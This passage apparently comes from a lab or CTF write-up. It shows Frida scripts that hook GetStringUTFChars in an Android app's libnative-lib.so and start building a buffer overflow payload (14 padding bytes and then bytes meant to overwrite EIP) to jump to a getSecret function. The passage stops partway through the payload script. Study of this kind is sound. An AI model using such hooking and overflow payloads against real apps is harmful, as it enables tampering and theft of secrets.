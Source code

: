 Here's the Frida script:

```js
var libnative_lib_so = 'libnative-lib.so';

function start_timer_for_intercept() {
  setTimeout(function() {
    console.log("[+] " + libnative_lib_so + " Base Address -> " + Module.findBaseAddress(libnative_lib_so));
    
    var offset_of_GetStringUTFChars = 0x51110;
    var dynamic_address_of_GetStringUTFChars = Module.findBaseAddress(libnative_lib_so).add(offset_of_GetStringUTFChars);
    
    Interceptor.attach(dynamic_address_of_GetStringUTFChars, {
      onLeave: function(retval) {
        var uInput = retval.readCString();
        if (uInput == "exploit") {
          console.log("We are done!");
        }
      }
    });
  }, 2000);
}

start_timer_for_intercept();
```

#### Explanation:

- **Finding the Base Address:** The base address of `libnative-lib.so` is retrieved and logged.
- **Offset Calculation:** We calculate the dynamic address of `GetStringUTFChars` by adding its offset to the base address.
- **Hooking GetStringUTFChars:** We use Frida's `Interceptor.attach` to hook the `GetStringUTFChars` function. If the user input matches "exploit", it confirms that the hook is working as expected.

This setup allows us to intercept and modify the input before it's used in the vulnerable function, helping us to overwrite the `EIP` with the `getSecret` address.

![frida-1](https://github.com/user-attachments/assets/0d55e89c-4583-416d-9093-49d98ad1153e)

Now, let's craft our payload. We need 14 bytes as an offset to reach the `EIP` register, followed by the base address of the `getSecret` function. However, there's a crucial detail: in our previous code, we only used `console.log()`. To exploit the vulnerability, we need to return an address as the `retval`. This requires allocating space in the heap.

Below is the code that does this:

```js
var libnative_lib_so = 'libnative-lib.so';

function start_timer_for_intercept() {
  setTimeout(function() {
    // Find the base address of the library
    console.log("[+] " + libnative_lib_so + " Base Address -> " + Module.findBaseAddress(libnative_lib_so));
    var offset_of_GetStringUTFChars = 0x51110; // Replace with the actual offset
    var dynamic_address_of_GetStringUTFChars = Module.findBaseAddress(libnative_lib_so).add(offset_of_GetStringUTFChars);

    // Allocate space in the heap for our payload
    var memoryForPayload = Memory.alloc(100);
    
    // Craft the payload: 14 'A's (0x41) followed by 'B's (0x42) to overwrite EIP
    var payload = [0x41, 0x41, 0x41, 0x41, 0x41, 0x41, 0x41, 0x41, 0x41, 0x41, 0x41, 0x41, 0x41, 0x41];
    payload.push(0x42, 0x42, 0x42, 0x42);
```